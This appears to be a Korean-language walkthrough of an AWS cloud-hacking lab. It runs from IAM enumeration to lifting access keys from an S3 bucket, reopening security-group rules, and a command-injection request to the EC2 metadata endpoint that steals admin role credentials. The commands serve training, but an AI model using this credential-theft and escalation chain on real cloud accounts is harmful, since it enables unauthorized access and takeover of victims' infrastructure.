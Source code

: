 # 시작 단계
`cat start.txt`
`aws configure --profile [시작사용자]`

# 사용자 정보 보기
`aws --profile [사용자] sts get-caller-identity`

# 인라인 정책 확인하기 -> 존재함
`aws --profile [사용자] iam list-user-policies --user-name [user_name]`

# 인라인 정책 자세히 보기)
`aws --profile [사용자] iam get-user-policy --user-name [user_name] --policy-name [정책이름]`

# 관리 정책 확인하기
`aws --profile [사용자] iam list-attached-user-policies --user-name [user_name]`

# ec2 인스턴스 정보 확인하기 (ec2 주소 확인)
`aws ec2 describe-instances --profile [시작사용자]`

# 홈페이지 접속 -> 접속 안될 예정
`http://ec2주소`

# security-group 방화벽 설정 확인
`aws ec2 describe-security-groups --profile [시작사용자]`

# ec2 방화벽 관리자의 AccessKey, SecretKey를 얻기 위한 s3 정보 확인하기 ( 버킷 확인 )
`aws s3 ls --profile [시작사용자]`

# 버킷 디렉토리 접근 후, key 얻기 
`aws s3 ls s3://[버킷이름]/ --profile [시작사용자]`
`aws s3 cp s3://[버킷이름]/[텍스트파일].txt --profile [시작사용자]`
`cat [텍스트파일].txt`

# 키 등록하기
`aws configure --profile [ec2 방화벽 관리자]`

# 인라인 정책 확인하기 -> 존재함
`aws --profile [사용자] iam list-user-policies --user-name [ec2 방화벽 관리자]`

# 정책확인했을 때, ec2와 s3에 접근 가능하다는 것을 알 수있음. (인라인 정책 자세히 보기)
`aws --profile [ec2 방화벽 관리자] iam get-user-policy --user-name [user_name] --policy-name [정책이름]`

# security-group rule 삭제 및 생성 ( 인바운드 기준 )
`aws ec2 revoke-security-group-ingress --group-id <security group id> --protocol <tcp/udp> --port <port number> --cidr <cidr>`
`aws ec2 authorize-security-group-ingress --group-id <security group id> --protocol <tcp/udp> --port <port number> --cidr <cidr>`

#인스턴스 재부팅
`aws ec2 reboot-instances --instance-ids [인스턴스 id] --profile [ec2 방화벽 관리자]`

# ec2 인스턴스 정보 확인하기 (ec2 주소 확인)
`aws ec2 describe-instances --profile [시작사용자]`

# 재접속 -> 접속 성공
`http://ec2주소`

# 웹공격 (RCE)
# aws 관리자 권한 획득
`http://ec2주소?cmd = curl http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_admin_role`

`aws configure --profile [aws 관리자]`
`echo "aws_session_token = {얻은 토큰}" >> ~/.aws/credentials`

# 사용자 정보 보기
`aws --profile [사용자] sts get-caller-identity`

# role에 설정된 정책 살펴보기
`aws iam list-attached-role-policies --role-name [role_name] --profile [aws 관리자]`
